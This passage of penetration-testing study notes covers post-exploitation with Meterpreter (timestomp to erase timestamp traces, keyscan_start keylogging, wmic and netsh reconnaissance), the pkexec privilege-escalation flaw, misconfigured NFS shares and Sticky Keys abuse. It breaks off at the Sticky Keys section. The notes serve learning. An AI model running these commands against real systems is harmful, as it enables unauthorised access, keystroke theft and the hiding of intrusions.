 To leave no trace of these MACE attributes, use the timestomp command to change the attributes as you wish after accessing a file.

- timestomp Secret.txt -v 
- timestomp Secret.txt -m “02/11/2018 08:10:03”
  - -m: specifies the modified value.
  - Accessed (-a), Created (-c), and Entry Modified (-e) 
- search -f [Filename.extension]
- keyscan_start 
  - start capturing all keyboard input from the target system.
- dir /a:h 
  - retrieve the directory names with hidden attributes.
- sc queryex type=service state=all 
  - list all the available services
- netsh firewall show state
- netsh firewall show config
- wmic /node:"" product get name,version,vendor 
  - view the details of installed software.
- wmic cpu get
- wmic useraccount get name,sid 
  - retrieve login names and SIDs of the users.
- wmic os where Primary='TRUE' reboot 
  - reboot the target system.

![image](https://user-images.githubusercontent.com/79740895/226418913-1c73a227-5caa-40c2-a229-44a9110baf72.png)

Exploiting Vulnerability in pkexec
- Polkit or Policykit is an authorization API used by programs to elevate permissions and run processes as an elevated user.The successful exploitation of the Polkit pkexec vulnerability allows any unprivileged user to gain root privileges on the vulnerable host.

- In the pkexec.c code, there are parameters that doesn’t handle the calling correctly which ends up in trying to execute environment variables as commands. Attackers can exploit this vulnerability by designing an environment variable in such a manner that it will enable pkexec to execute an arbitrary code.

Misconfigured NFS
- Network File System (NFS) is a protocol that enables users to access files remotely through a network. Remote NFS can be accessed locally when the shares are mounted. If NFS is misconfigured, it can lead to unauthorized access to sensitive data or obtain a shell on a system.

- showmount -e 10.10.1.9 
  - check if any share is available for mount in the target machine.
- sudo mount -t nfs 10.10.1.9:/home /tmp/nfs
- find / -name "*.txt" -ls 2> /dev/null 
  - view all the .txt files on the system
- find / -perm -4000 -ls 2> /dev/null 
  - view the SUID executable binaries.

Exploiting Sticky Keys
- Sticky keys is a Windows accessibility feature that causes modifier keys to remain active, even after they are released. Sticky keys help users who have difficulty in pressing shortcut key combinations. They can be enabled by pressing Shift key for 5 times. Sticky keys also can be used to obtain unauthenticated, previleged access to the machine.
